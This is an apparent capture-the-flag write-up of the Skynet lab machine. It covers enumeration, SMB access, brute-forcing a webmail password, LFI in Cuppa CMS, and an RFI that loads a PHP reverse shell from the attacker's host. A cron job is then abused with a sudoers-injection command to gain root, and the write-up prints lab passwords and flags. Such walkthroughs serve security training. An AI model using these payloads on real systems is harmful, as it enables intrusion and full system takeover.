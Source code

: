### Skynet

export IP=10.10.68.81

#### Deploy and compromise the vulnerable machine!

What is Miles password for his emails?
- cyborg007haloterminator


nmap scan:

![](../../img/Pasted%20image%2020220827201706.png)

Gobuster scan:

![](../../img/Pasted%20image%2020220827203111.png)

Looking at the pages on the browser, almost all pages return nothing, except the /squirrelmail, where we need to login our credentials:


![](../../img/Pasted%20image%2020220827203156.png)

Looking for other vectors of attack, we observed the smb port is open. We will try to enumerate the port using smbmap:

![](../../img/Pasted%20image%2020220827203243.png)

There are 2 directories of interest, the anonymous and the milesdyson share. We will open both directories and get all information we can get:

Anonymous is easy to open since it does not use credentials:

![](../../img/Pasted%20image%2020220827203357.png)

Opening up attention.txt file (after we get all files from the share)

![](../../img/Pasted%20image%2020220827203429.png)

Opening up log1.txt:

![](../../img/Pasted%20image%2020220827203447.png)

Other logs provide no details.

Since we have a possible wordlist of passwords to be used on user milesdyson, we can either use hydra or burpsuite to bruteforce login and provide us the correct password. I use hydra for this challenge:

![](../../img/Pasted%20image%2020220827203818.png)

After logging in the credentials on the /squirrelmail page, we are now inside miles's inbox:

![](../../img/Pasted%20image%2020220827204045.png)

We can check for email called 'Samba Password reset'

![](../../img/Pasted%20image%2020220827204115.png)

Message:

```
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

Using these credentials, we can now login to miles' smb share:

![](../../img/Pasted%20image%2020220827204226.png)

We have noticed the /notes folder:

![](../../img/Pasted%20image%2020220827204438.png)

looking inside notes directory, all files have .md pdf files except important.txt:

![](../../img/Pasted%20image%2020220827204520.png)

These are the details of important.txt:

![](../../img/Pasted%20image%2020220827204601.png)


What is the hidden directory?
- /45kra24zxs28v3yd

We visit the page and we are greeted by a picture:

![](../../img/Pasted%20image%2020220827204644.png)

We perform enumeration on the secret page and the results are as follows:

![](../../img/Pasted%20image%2020220827220920.png)

We visit the page /administrator but it seems that we need credentials again:

![](../../img/Pasted%20image%2020220827220954.png)

After this, we tried to use searchsploit for any vulnerabilities:

![](../../img/Pasted%20image%2020220827221033.png)

After searching, we can see that there is a vulnerability that uses local file inclusion for obtaining RCE, thus we tried to perform the LFI first:

![](../../img/Pasted%20image%2020220827221146.png)

For the LFI, we will use this syntax first to check if it really is working:

`http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`

Modifying into this:

`http://10.10.68.81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`

Reveals into this:

![](../../img/Pasted%20image%2020220827221323.png)

At this point, we can safely assume that RFI (remote file inclusion) is also possible, and i got stuck in this point.

We will now craft the RFI section of the vuln:

`http://10.10.68.81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.13.48.47:8080/reverse_shell.php?`

With which we will create a file in our local directory:

![](../../img/Pasted%20image%2020220827221852.png)

![](../../img/Pasted%20image%2020220827221902.png)

We will create a http.server on port 80 and netcat:

![](../../img/Pasted%20image%2020220827221934.png)

![](../../img/Pasted%20image%2020220827221945.png)

Then, after performing this link, we can now see that the httpserver has provided the php-reverse-shell file and netcat has now connected to the payload:

![](../../img/Pasted%20image%2020220827222042.png)

![](../../img/Pasted%20image%2020220827222057.png)

![](../../img/Pasted%20image%2020220827222109.png)

then performed shell stabilisation:

![](../../img/Pasted%20image%2020220827222126.png)

Then performed search for user.txt using find:

![](../../img/Pasted%20image%2020220827223411.png)

User flag:
7ce5c2109a40f958099283600a9ae807

For the privilege escalation, we performed sudo -l , transfer linenum, but to no luck. Instead, we checked /etc/crontabs and we found the following:

![](../../img/Pasted%20image%2020220827224758.png)

We opened the backup.sh and it says that we cd to var/ww/html and backup all the contents there every minute:

![](../../img/Pasted%20image%2020220827224846.png)

This is where i got stuck and searched for help. Here is the syntax for obtaining root:

![](../../img/Pasted%20image%2020220827224955.png)

Link: https://medium.com/azkrath/tryhackme-walkthrough-skynet-69399702ee5a


echo ‘echo “www-data ALL=(root) NOPASSWD: ALL” >> /etc/sudoers’ > sudo.sh

![](../../img/Pasted%20image%2020220827231206.png)

Then patiently wait after 1 minute, then perform sudo su, and check for whoami:

![](../../img/Pasted%20image%2020220827231233.png)

Flag.txt
3f0372db24753accc7179a282cd6a949


END

Draft:

http://10.10.68.81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.9.109.169/rshell.php

http://10.10.68.81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.13.48.47/php-reverse-shell.php?